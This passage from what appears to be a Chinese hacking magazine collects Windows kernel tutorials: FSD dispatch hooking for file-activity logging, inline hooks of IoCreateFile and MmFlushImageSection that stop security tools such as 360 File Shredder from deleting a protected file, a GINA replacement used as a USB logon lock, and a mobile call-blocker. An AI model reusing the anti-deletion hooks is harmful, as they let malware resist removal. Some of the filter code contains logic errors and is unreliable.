| +84 | MajorFunction[13] | IRP_MJ_CREATE_MAILSLOT |
| +88 | MajorFunction[14] | IRP_MJ_QUERY_SECURITY |
| +8C | MajorFunction[15] | IRP_MJ_SET_SECURITY |
| +90 | MajorFunction[16] | IRP_MJ_POWER |
| +94 | MajorFunction[17] | IRP_MJ_SYSTEM_CONTROL |
| +98 | MajorFunction[18] | IRP_MJ_DEVICE_CHANGE |
| +9C | MajorFunction[19] | IRP_MJ_QUERY_QUOTA |
| +A0 | MajorFunction[1A] | IRP_MJ_SET_QUOTA |
| +A4 | MajorFunction[1B] | IRP_MJ_PNP_POWER |

每个 IRP 对应具体的文件操作，这里不再做详细说明，查阅 MSDN 即可。下面以 IRP_MJ_CREATE 和 IRP_MJ_SET_INFORMATION 为例来说明如何利用 FSD Hook 实现过滤和监控。

###### FSD Hook 注解

文件系统既然有 NTFS 和 FAT32 两种，那么我们就要对两种都做 FSD Hook。首先看一下驱动生成的驱动对象的结构。`DRIVER_OBJECT` 结构的定义如下：

| 偏移 | 字段 | 类型 |
|---|---|---|
| +0x000 | Type | Int2B |
| +0x002 | Size | Int2B |
| +0x004 | DeviceObject | Ptr32_DEVICE_OBJECT |
| +0x008 | Flags | Uint4B |
| +0x00C | DriverStart | Ptr32 Void |
| +0x010 | DriverSize | Uint4B |
| +0x014 | DriverSection | Ptr32 Void |
| +0x018 | DriverExtension | Ptr32 _DRIVER_EXTENSION |
| +0x01C | DriverName | UNICODE_STRING |
| +0x024 | HardwareDatabase | Ptr32 UNICODE_STRING |
| +0x028 | FastIoDispatch | Ptr32 FAST_IO_DISPATCH |
| +0x02C | DriverInit | Ptr32 long |
| +0x030 | DriverStartIo | Ptr32 void |
| +0x034 | DriverUnload | Ptr32 void |
| +0x038 | MajorFunction | [28] Ptr32 long |

| 偏移 | 成员 | IRP |
|---|---|---|
| +38 | MajorFunction[0] | IRP_MJ_CREATE |
| +3C | MajorFunction[1] | IRP_MJ_CREATE_NAMED_PIPE |
| +40 | MajorFunction[2] | IRP_MJ_CLOSE |
| +44 | MajorFunction[3] | IRP_MJ_READ |
| +48 | MajorFunction[4] | IRP_MJ_WRITE |
| +4C | MajorFunction[5] | IRP_MJ_QUERY_INFORMATION |
| +50 | MajorFunction[6] | IRP_MJ_SET_INFORMATION |
| +54 | MajorFunction[7] | IRP_MJ_QUERY_EA |
| +58 | MajorFunction[8] | IRP_MJ_SET_EA |

从驱动对象结构中，我们可以清晰地看到，偏移 38h 处就是 28 个 IRP 分发函数的设置，我们只需要得到 DriverObject 的基址，然后替换掉 28 个分发函数地址，就完成了 FSD Hook，因此得到 DriverObject 是关键。我们可以通过 ZwCreateFile 得到指定文件的句柄对象，然后利用 ObReferenceObjectByHandle 就得到了驱动对象；还有一种做法是直接利用 ObReferenceObjectByName 得到驱动对象。

FSD Hook 的具体实现思路为：利用 ObReferenceObjectByName 函数得到驱动对象；利用 InterlockedExchange 函数进行替换。具体替换代码如下：

```c
#define NTFSNAME L"\\FileSystem\\Ntfs"
#define FASTFATNAME L"\\FileSystem\\Fastfat"

BOOLEAN HookFastfatDispatch()
{
    UNICODE_STRING DriverName;
    NTSTATUS status;
    RtlInitUnicodeString(&DriverName, FASTFATNAME);
    status = ObReferenceObjectByName(...);
    if (!NT_SUCCESS(status)) {
        KdPrint(("[HookNtfsDispatch] ObReferenceObjectByName Error\n"));
        return 0;
    }
    ObDereferenceObject((PVOID)FastfatDriverObject);
    KdPrint(("[HookNtfsDispatch]0x%x\n", (ULONG)FastfatDriverObject));

    OrigFastfatIrpCreate = FastfatDriverObject->MajorFunction[IRP_MJ_CREATE];
    OrigFastfatIrpSet = FastfatDriverObject->MajorFunction[IRP_MJ_SET_INFORMATION];

    InterlockedExchange((PLONG)&FastfatDriverObject->MajorFunction[IRP_MJ_CREATE], (ULONG)MyFastfatIrpCreate);
    InterlockedExchange((PLONG)&FastfatDriverObject->MajorFunction[IRP_MJ_SET_INFORMATION], (ULONG)MyFastfatIrpSet);
    return 1;
}

BOOLEAN HookNtfsDispatch()
{
    ...
}
```

```c
{
    UNICODE_STRING DriverName;
    NTSTATUS status;
    RtlInitUnicodeString(&DriverName, NTFSNAME);
    status = ObReferenceObjectByName(
        &DriverName,
        OBJ_CASE_INSENSITIVE,
        NULL,
        0,
        *IoDriverObjectType,
        KernelMode,
        NULL,
        &NtfsDriverObject);
    if (!NT_SUCCESS(status)) {
        KdPrint(("[HookNtfsDispatch] ObReferenceObjectByName Error\n"));
        return 0;
    }
    ObDereferenceObject((PVOID)NtfsDriverObject);
    KdPrint(("[HookNtfsDispatch]0x%x\n", (ULONG)NtfsDriverObject));

    OrigNtfsIrpCreate = NtfsDriverObject->MajorFunction[IRP_MJ_CREATE];
    OrigNtfsIrpSet = NtfsDriverObject->MajorFunction[IRP_MJ_SET_INFORMATION];

    InterlockedExchange((PULONG)&NtfsDriverObject->MajorFunction[IRP_MJ_CREATE], (ULONG)MyNtfsIrpCreate);
    InterlockedExchange((PULONG)&NtfsDriverObject->MajorFunction[IRP_MJ_SET_INFORMATION], (ULONG)MyNtfsIrpSet);
    return 1;
}
```

利用这 2 个函数，我们就完成了分发函数的替换工作。

##### IRP_MJ_CREATE 创建文件逻辑

创建和打开文件需要发送 IRP_MJ_CREATE，IRP 对应一个 IO_STACK_LOCATION 结构，该结构的定义如下：

| 字段 | 说明 |
|---|---|
| struct _IO_STACK_LOCATION (sizeof=36) | 结构定义 |
| +00 byte MajorFunction | 主功能号 |
| +01 byte MinorFunction | 次功能号 |
| +02 byte Flags | 标志 |
| +03 byte Control | 控制 |
| +04 union / struct Create | 参数联合 |
| +04 struct _IO_SECURITY_CONTEXT *SecurityContext | 安全上下文 |
| +08 uint32 Options | 选项 |
| +0C uint16 FileAttributes | 文件属性 |
| +0E uint16 ShareAccess | 共享方式 |
| +10 uint32 EaLength | 扩展属性长度 |
| ... | ... |

我们利用函数 IoGetCurrentIrpStackLocation 可以得到 I/O 堆栈：

```c
PIO_STACK_LOCATION IrpSp = NULL;
IrpSp = IoGetCurrentIrpStackLocation(Irp);
```

而从 I/O 堆栈中，可以得到操作文件的参数和文件对象指针：

```c
ULONG Option = IrpSp->Parameters.Create.Options;
// 文件参数
FileObject = IrpSp->FileObject; // 文件对象指针
// Option 中的高 8 位相当于 CreateDisposition，低 24 位相当于 CreateOptions
ULONG Disposition = (Option >> 24) & 0x000000ff; // 高 8 位
ULONG Options = Option & 0x00ffffff; // 低 24 位
```

我们要对文件创建进行过滤，通过分析 CreateFile 参数，可以得知满足如下条件即代表创建的是文件而不是文件夹：

```c
Disposition == FILE_CREATE
|| Disposition == FILE_OPEN_IF
|| Disposition == FILE_OVERWRITE_IF
&& Options == FILE_NON_DIRECTORY_FILE  // 排除创建文件夹
```

之后通过 I/O 堆栈中的文件对象指针即可得到操作的文件名和全路径。详细代码如下：

```c
// 创建文件
case IRP_MJ_CREATE:
{
    ULONG Option = IrpSp->Parameters.Create.Options;
    ULONG Disposition = (Option >> 24) & 0x000000ff;
    // 高 8 位相当于 CreateDisposition，低 24 位相当于 CreateOptions
    ULONG Options = Option & 0x00ffffff; // 低 24 位
    // 过滤条件，只针对创建文件而非文件夹
    if (Disposition == FILE_CREATE
        || Disposition == FILE_OPEN_IF
        || Disposition == FILE_OVERWRITE_IF
        && Options == FILE_NON_DIRECTORY_FILE)
    {
        // 申请内存
        PFILE FileLog = (PFILE)ExAllocatePool(NonPagedPool, sizeof(FILE));
        memset(FileLog, 0, sizeof(FILE));
        // 得到父进程信息
        GetCurrentProcess(&FileLog->Spid, FileLog->Sname, FileLog->Spath);
        // 文件全路径
        GetFullPathByFileObject(FileObject, FileLog->Fpath);
        GetSonName(FileLog->Fpath, FileLog->Fname);
        // 时间及操作
        GetCurrentTime(FileLog->Time);
        strcpy(FileLog->Flags, "CreateFile");
        // 打印信息
        KdPrint(("[MyFileSystemDispatch] FilePath:%s\n", FileLog->Flags));
        // 把信息加入链表
        AddFileLog(FileLog);
        // 释放内存
        ExFreePool(FileLog);
    }
    break;
}
```

###### IRP_MJ_SET_INFORMATION

删除文件及重命名过滤。

通过查询 MSDN 中 IRP_MJ_SET_INFORMATION 的相关信息，了解到当 IO_STACK_LOCATION 结构中 Parameters.SetFile 的参数为 FileInformationClass 是对文件的操作；为 FileDispositionInformation 时，表示删除文件；为 FileRenameInformation 表示重命名文件。详细代码如下：

```c
case IRP_MJ_SET_INFORMATION:
{
    if (IrpSp->Parameters.SetFile.FileInformationClass == FileDispositionInformation
        && ((PFILE_DISPOSITION_INFORMATION)Irp->AssociatedIrp.SystemBuffer)->DeleteFile)
    {
        // 删除文件特征
        // 申请内存
        PFILE FileLog = (PFILE)ExAllocatePool(NonPagedPool, sizeof(FILE));
        memset(FileLog, 0, sizeof(FILE));
        // 得到父进程信息
        GetCurrentProcess(&FileLog->Spid, FileLog->Sname, FileLog->Spath);
        // 文件全路径
        GetFullPathByFileObject(FileObject, FileLog->Fpath);
        GetSonName(FileLog->Fpath, FileLog->Fname);
        // 时间及操作
        GetCurrentTime(FileLog->Time);
        strcpy(FileLog->Flags, "DeleteFile");
        KdPrint(("[MyFileSystemDispatch] FilePath:%s\n", FileLog->Flags));
        // 把信息加入链表
        AddFileLog(FileLog);
        // 释放内存
        ExFreePool(FileLog);
    }

    if (IrpSp->Parameters.SetFile.FileInformationClass == FileRenameInformation)
    {
        // 重命名文件
        PFILE FileLog = (PFILE)ExAllocatePool(NonPagedPool, sizeof(FILE));
        memset(FileLog, 0, sizeof(FILE));
        // 得到父进程信息
        GetCurrentProcess(&FileLog->Spid, FileLog->Sname, FileLog->Spath);
        // 文件全路径
        GetFullPathByFileObject(FileObject, FileLog->Fpath);
        GetSonName(FileLog->Fpath, FileLog->Fname);
        // 时间及操作
        GetCurrentTime(FileLog->Time);
        strcpy(FileLog->Flags, "RenameFile");
        KdPrint(("[MyFileSystemDispatch] FilePath:%s\n", FileLog->Flags));
        // 把信息加入链表
        AddFileLog(FileLog);
        // 释放内存
        ExFreePool(FileLog);
    }
    break;
}
```

其他文件动作，比如隐藏文件、读写文件，参考 MSDN 及以上 2 个 IRP 的做法，都可以很清晰地得到详细的行为信息。

##### 行为取证

现在我们就可以把过滤技术投入到应用中，比如做主动防御、透明加密、沙箱技术、行为取证等。主动防御都太多了，无非就是用双事件通信、共享内存通信等，这里就不多加说明了；透明加密和沙箱技术比较复杂，以后再详细介绍；行为取证研究得不太多，之前也做过一段时间的取证软件，在这就说明一下。

文件行为取证，就是得到进程在何时对文件进行操作的信息，因此我把这些信息提炼后得到如下的结构来记录一条文件行为：

| PID | 进程名 | 进程全路径 | 文件名 | 文件全路径 | 动作 | 时间 |
|---|---|---|---|---|---|---|

进程信息我们利用 PsGetCurrentProcess 即可得到，文件信息通过 IrpSp->FileObject 可以得到，而时间信息则利用 KeQuerySystemTime 查询系统时间后转换成本地时间即可。由此，我们定义的文件记录结构如下：

```c
typedef struct _FILE {
    ULONG Spid;
    char Sname[64];
    char Spath[256];
    char Fname[64];
    char Fpath[256];
    char Flags[16];
    char Time[32];
} FILE, *PFILE;

typedef struct _FLOG_INFOR {
    FILE info;
    struct _FLOG_INFOR *next;
} FLOG_INFOR, *PFLOG_INFOR;
```

当我们捕获到这些信息后，需要把它们写到日志中。这里可以采用链表缓冲，应用程序查询链表或者链表缓冲、内核写日志。本文采用内核写日志，在内核中创建系统线程，然后循环读取链表，将取到的数据写入日志。

链表操作主要有初始化链表、添加链表、删除链表、销毁链表，当然链表操作必须互斥使用，因此我们还需要注册一个互斥体。详细代码如下：

```c
// 初始化链表
VOID InitFileList()
{
    fHead = (PFLOG_INFOR)ExAllocatePool(NonPagedPool, sizeof(FLOG_INFOR));
    memset(&fHead->info, 0, sizeof(FILE));
    fHead->next = NULL;
    // KdPrint(("InitFileList OK\n"));
}

// 销毁链表
VOID DestoryFileList()
{
    PFLOG_INFOR p = fHead;
    PFLOG_INFOR q = fHead->next;
    while (q != NULL) {
        ExFreePool(p);
        p = q;
        q = p->next;
    }
    ExFreePool(p);
}

// 添加结点到链表
VOID AddFileLog(PFILE pLog)
{
    PFLOG_INFOR newLog;
    MUTEX_WAIT(fMutex);
    newLog = ExAllocatePool(NonPagedPool, sizeof(FLOG_INFOR));
    memcpy(&newLog->info, pLog, sizeof(FILE));
    newLog->next = fHead->next;
    fHead->next = newLog;
    MUTEX_RELEASE(fMutex);
}

// 把头结点的下一个结点输出给用户
VOID GiveFileLog(PFILE cPro)
{
    PFLOG_INFOR q;
    MUTEX_WAIT(fMutex);
    q = fHead->next;
    fHead->next = q->next;
    memcpy(cPro, &q->info, sizeof(FILE));
    ExFreePool(q);
    MUTEX_RELEASE(fMutex);
}
```

最终我获取的文件行为结果如图 1 所示。通过日志，我们可以很清楚地了解到文件操作的细节。比如“2010 年 4 月 15 日 13:52 新建 文本文件(2).txt 创建”。

##### 总结

本文通过利用 FSD Hook 实现了文件系统过滤，我也在源码中很好地实现了一个 FSD Hook 引擎。文件过滤的应用前景巨大，本文仅仅演示了在文件行为取证方面的应用，而更有价值的应用，比如透明加密、沙箱技术，以后我们再做说明。

图 1

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC  
关键词：编程、文件保护、Hook

##### 保护文件不被 360 文件粉碎机删除

文/liuke_blue

360 文件粉碎机是一个用来删除计算机中存在的恶意的、顽固文件的工具。一般的 Hook、占坑技术等防止文件不被删除的方法是很难越过 360 文件粉碎机的。而本文就将介绍一种防止 360 文件粉碎机粉碎文件的方法。

IoCreateFile 函数是一个很重要的函数，不管是使用 NtCreateFile 还是 NtOpenFile，最终都要调用它来获取句柄。而 NtReadFile、NtWriteFile 等操作文件又得通过 NtCreateFile 或者 NtOpenFile 函数来获取文件句柄，最后都要用到 IoCreateFile 函数。所以我们要对 IoCreateFile 函数进行 Inline Hook。主要代码如下：

```c
NTSTATUS Fake_IoCreateFile(PHANDLE FileHandle,
    ACCESS_MASK DesiredAccess,
    POBJECT_ATTRIBUTES ObjectAttributes,
    PIO_STATUS_BLOCK IoStatusBlock,
    PLARGE_INTEGER AllocationSize,
    ULONG FileAttributes,
    ULONG ShareAccess,
    ULONG Disposition,
    ULONG CreateOptions,
    PVOID EaBuffer OPTIONAL,
    ULONG EaLength,
    CREATE_FILE_TYPE CreateFileType,
    PVOID InternalParameters,
    ULONG Options)
{
    NTSTATUS nStatus;
    ANSI_STRING FullName;
    if (Disposition == FILE_OPEN)
    {
        RtlUnicodeStringToAnsiString(&FullName, ObjectAttributes->ObjectName, TRUE);
        // 将 ansi string 转换为大写字符串
        RtlUpperString(&FullName, &FullName);
        if (strstr(FullName.Buffer, "1234.TXT"))
        {
            FileHandle = -1;
            IoStatusBlock->Status = STATUS_ACCESS_DENIED;
            IoStatusBlock->Information = 0;
            return STATUS_ACCESS_DENIED;
        }
    }
    return OriginalIoCreateFile(FileHandle,
        DesiredAccess,
        ObjectAttributes,
        IoStatusBlock,
        AllocationSize,
        FileAttributes,
        ShareAccess,
        Disposition,
        CreateOptions,
        EaBuffer OPTIONAL,
        EaLength,
        CreateFileType,
        InternalParameters,
        Options);
}

__declspec(naked) NTSTATUS OriginalIoCreateFile(PHANDLE FileHandle,
    ACCESS_MASK DesiredAccess,
    POBJECT_ATTRIBUTES ObjectAttributes,
    PIO_STATUS_BLOCK IoStatusBlock,
    PLARGE_INTEGER AllocationSize,
    ULONG FileAttributes,
    ULONG ShareAccess,
    ULONG Disposition,
    ULONG CreateOptions,
    PVOID EaBuffer OPTIONAL,
    ULONG EaLength,
    CREATE_FILE_TYPE CreateFileType,
    PVOID InternalParameters,
    ULONG Options)
{
    __asm {
        mov edi, edi
        push ebp
        mov ebp, esp
        mov eax, IoCreateFile
        add eax, 5
        jmp eax
    }
}
```

这样就对 IoCreateFile 函数进行了 Hook。还有一个函数 MmFlushImageSection 也十分重要，在删除文件的过程中要调用这个函数判定文件在运行时是否已经释放，如果文件在运行且没有释放，这个函数会返回 FALSE，让文件无法被删除。所以很多粉碎工具都 Hook 这个函数，让这个函数返回 TRUE，使文件可以被删除，像东方微点就 Hook 了这个函数。我们同样 Hook 这个函数，主要代码如下：

```c
__declspec(naked) BOOLEAN NTAPI MmFlushImageSection(
  IN PSECTION_OBJECT_POINTERS SectionObjectPointer,
  IN MMFLUSH_TYPE FlushType)
{
  __asm {
    mov edi,edi
    push ebp
    mov ebp,esp
    mov eax, OldFuncAddrss
    add eax,5
    jmp eax
  }
}

BOOLEAN NTAPI Fake_MmFlushImageSection(
  IN PSECTION_OBJECT_POINTERS SectionObjectPointer,
  IN MMFLUSH_TYPE FlushType)
{
  PFILE_OBJECT pfile;
  WCHAR *pwsz = NULL;
  if (FlushType == MmFlushForDelete) {
    if (SectionObjectPointer->DataSectionObject != NULL) {
      pfile = (PFILE_OBJECT)(*(ULONG*)((ULONG)SectionObjectPointer->DataSectionObject + 0x24));
      __try {
        pwsz = wcsrchr(pfile->FileName.Buffer, L'\\');
        if (pwsz != NULL) {
          pwsz++;
        }
        if (!_wcsnicmp(pwsz, AntiDelFile, wcslen(AntiDelFile)*2)) {
          DbgPrint("FileName=%ws", pwsz);
          return FALSE;
        }
      } __except(1) {
        return FALSE;
      }
    }
  }
  return MmFlushImageSection(SectionObjectPointer, FlushType);
}
```

MmFlushImageSection 函数不能直接得到文件句柄，通过参数 SectionObjectPointer 几次查找可以找到文件句柄。下面给大家详细介绍如何找到文件句柄。

首先通过 Windbg 反汇编 SectionObjectPointer 结构体：

```text
lkd> dt nt!_SECTION_OBJECT_POINTERS
 +0x000 DataSectionObject : Ptr32 Void
 +0x004 SharedCacheMap    : Ptr32 Void
 +0x008 ImageSectionObject: Ptr32 Void
```

DataSectionObject 其实是指向未公开的结构体 _CONTROL_AREA，这个结构体在 Windbg 下反汇编的代码如下：

```text
lkd> dt nt!_CONTROL_AREA
 +0x000 Segment               : Ptr32 _SEGMENT
 +0x004 DereferenceList       : _LIST_ENTRY
 +0x00c NumberOfSectionReferences : Uint4B
 +0x010 NumberOfPfnReferences : Uint4B
 +0x014 NumberOfMappedViews   : Uint4B
 +0x018 NumberOfSubsections   : Uint2B
 +0x01a FlushInProgressCount  : Uint2B
 +0x01c NumberOfUserReferences: Uint4B
 +0x024 FilePointer           : Ptr32 _FILE_OBJECT
 ...


```

其中的 FilePointer 所指向的 _FILE_OBJECT 就是我们想要获得的。我们通过 SectionObjectPointer->DataSectionObject 获取指向 _CONTROL_AREA 的指针，然后再 +0x24 偏移到 FilePointer，得到文件名。

为了方便测试，我分开编写了 Hook IoCreateFile 和 MmFlushImageSection，用最新的 360 安全卫士 7.0 所带的 360 文件粉碎机、冰刃 1.22 和 XueTr 进行删除测试，结果如表 1 所示：

| 利用工具测试 | IoCreateFile | MmFlushImageSection |
|---|---|---|
| 最新 360 粉碎机 | 不能粉碎 | 可以粉碎 |
| 冰刃 1.22 | 可以删除 | 不能删除 |
| XueTr 0.17 | 可以删除 | 不能删除 |

从上面的结果看出，360 粉碎机对 MmFlushImageSection 函数做了相应的防备，但却仍然使用 IoCreateFile 函数来获取文件句柄；而像冰刃、XueTr 这些 AntiRootkit 工具倒是绕过了 IoCreateFile 函数，但却未考虑到 MmFlushImageSection 函数。

不过 360 粉碎机还采用了其他措施来对付利用 Hook IoCreateFile 函数保护文件不被删除的方法。比如在 360 粉碎机中选择“阻止被粉碎的文件再次生成”这个选项，就会发现被保护的文件里面的内容已经被清零，这样也同样达到了删除文件的目的。（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC  
关键词：编程、GINA、开机锁
##### 利用 GINA 实现 U 盘开机锁

文/masepu

我曾在黑防发表了一篇利用普通 U 盘打造开机锁的文章，当时虽然程序功能都已实现，但其运行方式过于初级，只是简单地将程序放入启动目录，利用启动组开机运行。经黑防编辑指点，经过一段时间的资料收集和测试，实现了利用重写 GINA 进行 U 盘检测认证的开机锁功能，特写出来与大家分享。由于 Windows 本身就是利用 GINA 进行身份验证的，因此该程序能够很好地与操作系统集成，完美实现 U 盘开机锁的功能。

GINA，然后替换 msgina.dll。最简单的 GINA 木马只需写一个接口和原始 GINA 一样的 msgina.dll，需要实现的功能就是登录时将密码记录下来，其他所有函数的实现都是去调用原始 msgina.dll 内的同名函数。原始的 GINA 动态链接库会导出表 1 中的函数以供 Winlogon 进程调用，因此在我们的 GINA 里要么自己实现这些函数，要么直接调用原始 GINA DLL 里的同名函数。

##### 原理

GINA（Graphical Identification and Authentication）是 Windows 操作系统提供的安全登录认证和交互登录服务的组件，可为 Winlogon 提供用户身份识别和验证，以及用户账号和密码的反馈功能。在 Windows 中，Winlogon 进程负责管理与登录和身份认证相关的安全性工作，包括处理用户的登录与注销、启动用户 Shell、输入口令、更改口令、锁定与解锁工作站等。Winlogon 进程在系统初始化、启动用户程序之前运行，以保证相关操作对其他进程不可见，避免其他进程取得登录敏感数据。启动过程中，winlogon.exe 会调用 GINA，我们在 Windows 登录过程中看到的欢迎屏幕和登录对话框就是 GINA 显示的。在系统中，GINA 是一个可以被替换的动态链接库。该动态链接库默认文件名为 msgina.dll，位于系统 system32 目录下。为了支持更多的交互登录验证方式，GINA 是可替换的，我们可以自己开发 GINA 动态链接库以实现其他类型的身份验证方法，而且微软也提供了相关文档和例程。

###### 接口

GINA 作为一个图形化身份识别和验证组件，充当系统交互式登录的入口。有些木马也利用 GINA 进行密码盗取，它们往往编写和系统 GINA 界面相同的……

表 1

| 导出函数名 | 功能简介 |
|---|---|
| WlxActivateUserShell | 激活用户外壳程序 |
| WlxDisplayLockedNotice | 允许 GINA DLL 显示锁定信息 |
| WlxDisplaySASNotice | 当没有用户登录时，Winlogon 调用此函数 |
| WlxDisplayStatusMessage | Winlogon 用一个状态信息调用此函数进行显示 |
| WlxGetConsoleSwitchCredentials | Winlogon 调用此函数读取当前登录用户的凭证信息，并跨会话地将它们传到目标会话 |
| WlxGetStatusMessage | Winlogon 调用此函数获取当前状态信息 |
| WlxInitialize | 针对指定的窗口位置进行 GINA DLL 初始化 |
| WlxIsLockOk | 验证工作站正常锁定 |
| WlxIsLogoffOk | 验证注销正常 |
| WlxLoggedOnSAS | 用户已登录并且工作站没有被加锁，如果此时接收到 SAS 事件，则 Winlogon 调用此函数 |
| WlxLoggedOutSAS | 没有用户登录，如果此时收到 SAS 事件，则 Winlogon 调用此函数（可在此函数中实现 U 盘开机锁功能） |
| WlxLogoff | 请求注销操作时通知 GINA DLL |
| WlxNegotiate | 表示当前的 Winlogon 版本是否能使用 GINA DLL |
| WlxNetworkProviderLoad | 在加载网络服务提供程序收集了身份和认证信息后，Winlogon 调用此函数 |
| WlxRemoveStatusMessage | Winlogon 调用此函数告诉 GINA DLL 停止显示状态信息 |
| WlxScreensaverNotify | 允许 GINA 与屏幕保护操作交互 |
| WlxShutdown | 在关闭之前 Winlogon 调用此函数，允许 GINA 实现任何关闭任务 |
| WlxStartApplication | 当系统需要在用户的上下文中启动应用程序时调用此函数 |
| WlxWkstaLockedSAS | 当工作站被锁定，如果接收到一个 SAS，则 Winlogon 调用此函数 |

GINA 除了要实现以上的函数功能外，也要调用 Winlogon 提供的函数，这些函数也具有相同的 Wlx 前缀，此处不再赘述。

###### 实现

GINA 函数通常的调用顺序为：操作系统启动后，Winlogon 加载 GINA 并首先调用 WlxNegotiate 函数，该函数实现 GINA 和 Winlogon 版本互相验证的功能。接着调用 WlxInitialize 来做初始化操作。初始化完成后，在用户登录之前，Winlogon 会调用 WlxDisplaySASNotice 来显示登录提示，就是常见的“按 Ctrl+Alt+Del 键登录”的提示对话框。当用户按提示操作后，Winlogon 会调用 GINA 中的下一个函数 WlxLoggedOutSAS，该函数具体实现对用户登录进行身份验证的功能，也是本文主要需要修改的函数。接下来如果用户身份验证通过，GINA 会向 Winlogon 返回一个标记句柄，以便 Winlogon 为该用户配置专用登录会话和默认桌面。接着 Winlogon 会调用 WlxActivateUserShell，GINA 会启动用户 Shell 并返回给 Winlogon，此时用户就可以成功登录到系统中了。

本文主要是在 WlxLoggedOutSAS 函数中实现 U 盘的检测、U 盘 ID 的获取和 ID 值比较等功能。为了不具体实现每一个 GINA 的导出函数，其余需要被 Winlogon 调用的函数采用直接调用原始 GINA DLL 中的函数方法来实现，以保证我们的 GINA DLL 具有和原始 GINA 一样的功能。即使在 WlxLoggedOutSAS 函数中实现我们添加的功能后，同样要调用原始 GINA 内的该同名函数，以便将数据正确返回 Winlogon。

在编写过程中，导入原始的 GINA DLL 的语句为：`hMsDll = LoadLibrary("msgina.dll");`，获得原始 DLL 的导出函数地址指针的代码如下：

```c
if (hMsDll != NULL)
{
    MyWlxNegotiate = (NEGOTIATE)GetProcAddress(hMsDll, "WlxNegotiate");
}
```

```c
MyWlxInitialize = (INITIALIZE)GetProcAddress(hMsDll, "WlxInitialize");
....
```

而 Winlogon 需要调用的 GINA 函数以如下方式实现：

```c
BOOL WINAPI WlxNegotiate(DWORD dwWinLogonVersion, PDWORD pdwDllVersion)
{
    return theApp.MyWlxNegotiate(dwWinLogonVersion, pdwDllVersion);
}


```

U 盘检测和 ID 读取比较等验证功能在以前的文章中已经交待清楚，这里就不再赘述。程序编写成功并安装完成后，Windows 开机登录系统时的登录界面会变成如图 1 所示的界面。
整个软件实现的功能就是当用户开机登录系统时，弹出要求检测 U 盘锁的对话框，当用户将 U 盘插入后，我们编写的 GINA 会检测该 U 盘 ID 与所有 ID 是否一致，如果一致则跳到用户名密码输入的登录页面，否则拒绝登录。程序在第一次使用时，会读取 U 盘 ID 并存到系统文件夹下，以便之后判断比较。

###### 安装

本文程序的安装过程非常简单，先将生成好的 GINA DLL 复制到系统 system32 目录下，然后在注册表中添加如下信息：

- 键值：`\HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon`
- 变量名：`GinaDLL`
- 变量类型：`[REG_SZ]`
- 内容：`"生成的 GINA DLL 文件的名称"`

最后重启机器，U 盘锁登录界面就会出现。当然，整个安装过程也可以编程自动实现。大家可以利用本文的 GINA 程序作为模板，来随意改变系统的登录认证方式，有兴趣的读者可以自己动手试试。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC  
关键词：编程、手机、来电防火墙

##### 在 WM 手机上实现来电防火墙
文/图 coldzenleft

相信大家都遇到过这种情况，比如被某个莫名其妙的电话骚扰，而且是反复骚扰，于是来电防火墙应运而生。“来电防火墙”功能，简单地说，就是使不想接听的电话打不进来（黑名单功能），同时也可以指定接听个别电话（白名单功能）。许多手机安全厂商在自己的手机杀毒产品中都添加了这个功能，从而保护用户免受恶意电话的骚扰。

现如今，智能手机的普及度已经相当高了，常见的有 NOKIA、Windows Mobile 以及现在特别火的 Google 手机。本文是基于 Windows Mobile（以下简称 WM 手机）来实现来电防火墙的功能的。我所用的手机是 WM 6.0（WinCE 5.0 内核），目前 Windows Mobile 手机已经是 WM 7 了，只是因为我的样机是 WM 6.0 的，所以以此为主。

开发手机软件，我所用到的环境是 Windows XP SP3、Visual Studio 2005，以及智能手机的 SDK（Windows Mobile 6 Professional SDK Refresh.msi），用于调试的模拟器（Windows Mobile 6.1 Professional Images (USA).msi），以及 WM 手机和计算机连接工具（Microsoft ActiveSync 4.5 setup.msi）。安装完成之后，运行 VS 2005，在新建工程的时候选择“Smart Device”即可，如图 1 所示。

在“Smart Device Project”会有一个选择 SDK 的环节，这里我选择了自己安装过的所有 SDK，如图 2 所示。当然，大家也可以根据自己的实际需要自行选择。
图 2

在工程界面中，如图 3 所示一样，再选择一下配置的 SDK，就可以开始编写有关 WM 的手机程序了。
图 3

由于本文的主旨在于编写一个 WM 手机来电防火墙，并且实现拦截指定电话号码的功能，因此，除了最终调试在真机上运行以外，我们还应该再搭建一个模拟器平台并利用软件对虚拟机拨号通话。

当建完工程准备调试代码的时候，会调用虚拟机，编译器会自动将你的程序装载至 `\Program Files\TestSmart\` 目录下（这里的 TestSmart 是我建立工程组时取的名字）。我们也可以在“Tools”选项卡中，选…
图 1

选择“Smart Device”下的“Win32 Smart Device”

##### WM 手机来电防火墙实现

选择“Device Emulator Manager”，再选择一个测试用的虚拟机，我选择的是“Windows Mobile 6 Professional Emulator”，如图 4 所示。
图 4

因为我们在安装 WM 开发工具的时候，还安装过“Windows Mobile 6.1 Professional Images (USA).msi”，其中包含一个“Cellular Emulator”（蜂窝仿真器）的工具，可以对 WM 手机模拟器进行打电话的虚拟拨号功能。启动蜂窝仿真器，注意观察“DE: COM”的值（我的是 COM3），如图 5 所示。在模拟器上选择“File”，进入“Peripherals”选项卡，在“Serial port 0:”中选择或者直接输入与蜂窝仿真器的“DE: COM”相对应的串口值（比如我的是 COM3，虽然选择不了，但是可以直接输入），其情况如图 6 所示。
图 5

设置完手机模拟器后，对手机进行软件重启（File->Reset->Soft）。重启完成之后，在蜂窝仿真器的“Call Manager”选项卡的“Phone Number”处输入一个自己编的电话号码，单击“Dial”，即可以对 WM 的手机模拟器拨号，效果如图 7 所示。至此，有关 WM 智能手机的安装以及如何搭建一个通信的模拟平台就介绍完毕，下面就介绍正题：如何实现一个 WM 手机的来电防火墙。
图 6
图 7

实现一个手机防火墙，我们至少有两个方法。相信熟悉 Windows 下 SPY++ 的人，肯定对 WinCE 中的 Remote SPY++ 并不陌生。当有电话打入的时候，通过 Remote SPY++ 可以截获到的数据如图 8 所示。而且，在 WM 手机中编程也有非常丰富的和窗口有关的 API 函数，因此，通过循环定时地遍历新窗口，我们也能够判断打入这个手机的电话（如图中的“1234567890”）以及状态（Incoming Call）。
图 8

